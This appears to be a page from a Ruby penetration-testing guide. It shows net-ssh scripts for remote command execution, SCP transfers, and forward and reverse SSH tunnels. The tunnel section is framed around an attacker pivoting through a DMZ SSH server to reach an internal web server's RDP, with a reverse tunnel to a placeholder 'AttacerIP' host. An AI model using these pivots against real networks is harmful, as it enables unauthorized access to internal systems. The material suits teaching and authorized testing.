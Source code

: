 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```

## Simple SSH client
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```


## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ltunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |->-|                       |                 |                 |
                              |-----------------|-----------------|
```
Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/evn ruby
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer", 
                    "root",
                    "/rubyfu/file.txt", "/root/", 
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer", 
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



